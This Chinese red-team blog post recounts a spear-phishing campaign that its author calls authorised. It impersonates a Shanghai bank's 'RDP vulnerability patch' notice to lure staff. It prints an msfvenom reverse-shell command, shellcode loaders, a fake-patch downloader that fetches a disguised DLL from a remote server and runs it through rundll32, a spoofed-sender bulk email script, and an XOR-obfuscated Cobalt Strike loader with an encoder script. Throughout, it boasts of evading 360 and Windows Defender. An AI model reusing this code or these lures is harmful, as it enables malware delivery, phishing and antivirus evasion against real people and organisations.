> 作者：[倾旋](https://payloads.online)

## 0x00 前言

本次是授权的鱼叉案例，也都是尝试，经验不够丰富

## 0x01 鱼叉攻击

“鱼叉攻击”是黑客攻击方式之一，最常见的做法是，将木马程序作为电子邮件的附件，并起上一个极具诱惑力的名称，发送给目标电脑，诱使受害者打开附件，从而感染木马。

## 0x02 准备开始

久久拿不到shell，遂开始通过鱼叉攻击，希望获得一些收获

询问是否允许支持这类技术手段：


接着找同事提供素材，一封客户的邮件，里面包含了邮件签名、部门名称、Logo

## 0x03 制作模板



大致内容为：

标题：`上海xxx关于业务网、办公网终端安全紧急加固公告`

背景

北京时间 2019 年 5 月 15 日微软发布安全补丁修复了 CVE 编号为 CVE-2019-0708 的 Windows 远程桌面服务(RDP)远程代码执行漏洞，该漏洞在不需身份认证的情况下即可远程触发，危害与影响面极大。

受影响的版本

*   Windows 7
*   Windows Server 2008 R2
*   Windows Server 2008
*   Windows Server 2003
*   Windows XP

由于该漏洞与去年的“Wannacry”勒索病毒具有相同等级的危害，由总行信息科技部研究决定，先推行漏洞加固补丁，确保业务网、办公网全部修补漏洞。

安装方式

解压“上海xxxRDP漏洞补丁.zip”,解压密码：xxx123，解压成功后，双击运行“RDP-VulnPatch.exe”即可：

修复成功会提示“修复漏洞成功！”

上海xxx

二零一九年五月二十日

其中解压密码也是目标常见的弱口令。

## 0x04 制作木马

通过手工制作一个`Windows/shell/reverse_tcp`的木马DLL，先获得Msfvenom生成的shellcode。

```
$ /opt/metasploit-framework/bin/msfvenom -p windows/shell/reverse_tcp LHOST=xxxx LPORT=8899 -f c -e x86/shikata_ga_nai -i 20 
```



用之前的QQ拼音输入法DLL劫持漏洞，来一次白利用。

```
VOID shdjshjdhsjhdjshdjs() {

		unsigned char buff[] =
		"\xbe\x65\x43\x60\x4a\xdb\xcd\xd9\x74\x24\xf4\x58\x31\xc9\xb1"
		"\xd6\x31\....省略部分.......7\xe7\xc3\x2a\xcd\x23\xb8\x07\x0b\x04\x54\x17"
		"\xc1\x57\x63\x4c\x60\xa7\x7a\xa7\x54\xe7\xc2";

	PVOID p = NULL;
	if ((p = VirtualAlloc(NULL, sizeof(buff), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE)) == NULL) {
		printf("error");
	}

	if (!(CopyMemory(p, buff, sizeof(buff)))) {
		printf("error");
	}

	CODE code = (CODE)p;
	code();
} 
```

参考文章：[https://payloads.online/archivers/2018-06-09/1](https://payloads.online/archivers/2018-06-09/1)

## 0x05 搜集邮箱

在百度文库搜索到来一些：

图就不贴了，打码麻烦。。。

写了一个bash脚本用于发送伪造邮件：

```
for line in `cat mail`
do
	echo "$line"

	sed "s/xx@xx.net/${line}/g" data.eml | swaks --to $line --from xx@smtp2go.com --h-From '=?UTF-8?B?xx?= <xx@xx.xx.cn>' --server mail.smtp2go.com -p 2525 -au USER -ap PASS --data - > /tmp/send.log
done 
```

data.eml是转换出来的邮件正文



该技术是可以绕过SPF及DKIM检测的。



具体参考：[https://payloads.online/archivers/2019-05-09/1](https://payloads.online/archivers/2019-05-09/1)

由于是反弹cmd做测试，所以不会被360拦截



邮件效果如下：



## 0x06 一点点收获



经过确认，不是客户的机器。

## 0x07 第二个版本

由于之前使用的是QQ输入法签名加载器，当鼠标移动上去会显示程序描述信息，这不是我想要的结果，于是开始手撸木马….

开发环境：

*   Windows 10 x64
*   Visual Studio 2015

测试环境：

*   Windows 7 x64
*   360卫士

## 0x08 木马思路

写一个下载器充当漏洞补丁程序，下载器再去服务器下载DLL模块，使用Rundll32进行加载运行。

期间涉及到窗口提示优化、程序资源信息优化、权限申请

效果如下：



下载器代码：

```
// Win32Project5.cpp : 定义控制台应用程序的入口点。
//

#include "stdafx.h"
#include <Windows.h>
#include <iostream>
#include <UrlMon.h>
#pragma comment(lib, "urlmon.lib")
using namespace std;

HRESULT DownloadFile(PTCHAR URL, PTCHAR File);

static TCHAR URL[] = TEXT("http://**.**.**.**:8000/fff.jpeg");
static TCHAR SaveFile[MAX_PATH];
static TCHAR FileName[] = TEXT("\\fff.dll");
// 下载文件
HRESULT DownloadFile(PTCHAR URL, PTCHAR File) {
	HRESULT hr = URLDownloadToFile(0, URL, File, 0, NULL);
	return hr;
}

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, PSTR szCmdLine, int iCmdShow)

{
	ZeroMemory(SaveFile, MAX_PATH);
	GetEnvironmentVariable(TEXT("TMP"), SaveFile, MAX_PATH);

	lstrcatW(SaveFile, FileName);
	if (DownloadFile(URL, SaveFile) != S_OK)
	{
		// wprintf(TEXT("Error: %d \n"), GetLastError());
		MessageBox(NULL, TEXT("修复漏洞失败，请检查网络，是否能够连接到微软服务器！"), TEXT("上海xxx"), MB_ICONWARNING | MB_OK);
		return 0;
	}

	lstrcatW(SaveFile, TEXT(",rundll32dllfun"));
	TCHAR opt[MAX_PATH];
	ZeroMemory(opt, MAX_PATH);
	lstrcatW(opt, TEXT(" "));
	lstrcatW(opt, SaveFile);
	PROCESS_INFORMATION pi;
	STARTUPINFO si = { sizeof(si) };
	si.cb = sizeof(si);
	si.wShowWindow = TRUE;
	CreateProcess(
		TEXT("C:\\Windows\\System32\\rundll32.exe"), 
		opt,
		NULL, 
		NULL, 
		FALSE, 
		CREATE_NEW_CONSOLE,
		NULL,
		NULL, 
		&si, 
		&pi);
	cout << GetLastError() << endl;
	MessageBox(NULL, TEXT("修复漏洞成功！"), TEXT("上海xxx"), MB_OK | MB_ICONINFORMATION);

    return 0;
} 
```

fff.jpeg的代码：

```
// Win32Project6.cpp : 定义 DLL 应用程序的导出函数。
//

#include "stdafx.h"
#include "Win32Project6.h"

typedef void(_stdcall *CODE)();
// 这是导出变量的一个示例
WIN32PROJECT6_API int nWin32Project6=0;

extern "C" _declspec(dllexport) void __cdecl rundll32dllfun(HWND hwnd, HINSTANCE hinst, LPSTR lpszCmdLine,int nCmdShow)
{
	unsigned char buf[] =
		"\xbf\xaa\x57\x39\xb0\xda\xdd\xd9\x74\x24\xf4\x58\x29\xc9\xb1"
		"\xd6\x83\xe8\xfc\x31\x78\x10\x03\x78\x10\x48\xa2\x81\x35\xa2"
		"\x82\x9c\xef\x7f\xc5\x15\x34\x8b\xad\xe6\xfd\xc2\x9d\x38\xbd"
		"\x31\x21\x78\x54\xba\xce\x82\xb4\xcc\xe5\x68\x8e\x22\x28\xd7"
		"\x06\x8c\x96\x0a\x7b\xed\x44\xf0\x94\x65\x0e\xa4\x3b\x2e\xcb"
		"\xe7\x17\x60\xaf\x1d\xa4\x57\x1f\xb1\xf3\x01\x31\x5c\x6a\x97"
		"\xf...省略...";
	PVOID p = NULL;
	p = VirtualAlloc(NULL, sizeof(buf), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
	if (p != NULL)
	{
		memcpy(p, buf, sizeof(buf));
		CODE code = (CODE)p;
		code();
	}
	return;
} 
```

其中`extern "C" _declspec(dllexport) void __cdecl rundll32dllfun`是符合rundll32加载的固定函数定义格式。

当木马运行后，会在进程列表创建rundll32.exe，它是一个系统文件。

### UAC

为了使木马获取更高的权限，我开启了管理员权限申请：



点击是：



提示修复成功，然后程序关闭。

同时，本地机器上会生成一个dll文件：





进程中也会多出一个rundll32，360不会拦截：


服务端提供下载的服务器会多出日志：




## 0x09 发送邮件

邮箱地址通过http://www.skymem.info 采集到200多个，同时也写了一个脚本：



估计要跑一晚上了，明天看收获吧，如果有的话，继续写。

## 0x10 升级木马

第一版是一个败笔，应该关注更多视觉感受，比如图标、logo，暗示它这个文件是可信的，不应该使用其他程序用作加载器，来达到免杀的效果。如果第二版的木马当作第一版去发，我觉得成功率80%。

但是我觉得光采用反弹cmd的太烂了，木马要像模像样点。

于是，开始对木马进行改造，下载器文件不变，只需要更新服务器上的fff.jpeg这个DLL即可，因为每次运行，都会下载这个DLL，然后用rundll32调用。

我想使得它上线cobaltstrike，绕过Windows Defender基本上没啥问题了，既保证之前的邮件木马可用，又能保证新的代码更新。

重写`rundll32dllfun`即可：

fff.jpeg:

```
extern "C" _declspec(dllexport) void __cdecl rundll32dllfun(HWND hwnd, HINSTANCE hinst, LPSTR lpszCmdLine,
	int nCmdShow)
{
	CHAR cpu_code[] =
		"\xf5\xe1\x80\x09\x09\x09\x69\x80\xec\x38\xdb\x6d\x82\x5b\x39\x82\x5b\x05\x82\x5b\x1d\x82\x7b\x21...省略部分....\x3e\x38\x27\x38\x30\x27\x38\x3d\x3d\x27\x3f\x30\x09\x09\x09\x09\x09";
	DWORD dwCodeLength = sizeof(cpu_code);
	DWORD dwOldProtect = NULL;
	for (DWORD i = 0; i < dwCodeLength; i++) {
		cpu_code[i] ^= 9;
	}

	PVOID pCodeSpace = VirtualAlloc(NULL, dwCodeLength, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

	if (pCodeSpace != NULL)
	{
		CopyMemory(pCodeSpace, cpu_code, dwCodeLength);
		Sleep(200);
		VirtualProtect(pCodeSpace, dwCodeLength, PAGE_EXECUTE, &dwOldProtect);
		CODE coder = (CODE)pCodeSpace;
		HANDLE hThread = CreateThread(NULL, 0, (PTHREAD_START_ROUTINE)coder, NULL, 0, NULL);
		WaitForSingleObject(hThread, INFINITE);
	}

	return;
} 
```

这里采用了异或解码shellcode、虚拟内存页属性调整、创建线程的方式执行shellcode，绕过90%的杀软…

> 创建线程的好处就是，可以调用WaitForSingleObject来使得shellcode执行完毕进程才退出。

好几次调试的时候，进程执行完毕了shellcode还没运行，使用WaitForSingleObject就解决了这个问题～

为此为还写了一个异或脚本：

```
import sys
from argparse import ArgumentParser, FileType

def process_bin(num, src_fp, dst_fp):
    shellcode = ''
    shellcode_size = 0
    try:
        while True:
            code = src_fp.read(1)
            if code == '':
                break
            base10 = ord(code) ^ num
            code_hex = hex(base10)
            code_hex = code_hex.replace('0x','')
            if(len(code_hex) == 1):
                code_hex = '0' + code_hex
            shellcode += '\\x' + code_hex
            shellcode_size += 1
        src_fp.close()
        dst_fp.write(shellcode)
        dst_fp.close()
        return shellcode_size
    except Exception as e:
        sys.stderr.writelines(str(e))

def main():
    parser = ArgumentParser(prog='Shellcode X', description='[XOR The Cobaltstrike PAYLOAD.BINs] \t > Author: rvn0xsy@gmail.com')
    parser.add_argument('-v','--version',nargs='?')
    parser.add_argument('-s','--src',help=u'source bin file',type=FileType('rb'), required=True)
    parser.add_argument('-d','--dst',help=u'destination shellcode file',type=FileType('w+'),required=True)
    parser.add_argument('-n','--num',help=u'Confused number',type=int, default=90)
    args = parser.parse_args()
    shellcode_size = process_bin(args.num, args.src, args.dst)
    sys.stdout.writelines("[+]Shellcode Size : {} \n".format(shellcode_size))

if __name__ == "__main__":
    main() 
```

生成一个payload.bin：


选择raw：



使用效果：



把生成的文件shellcode直接可以放入源代码进行编译。

2/70的战绩：

[https://www.virustotal.com/#/file/576281eabe371ce01e3e23048652e878022144eca9696bf1dbf7741bd6e30c86/detection](https://www.virustotal.com/#/file/576281eabe371ce01e3e23048652e878022144eca9696bf1dbf7741bd6e30c86/detection)

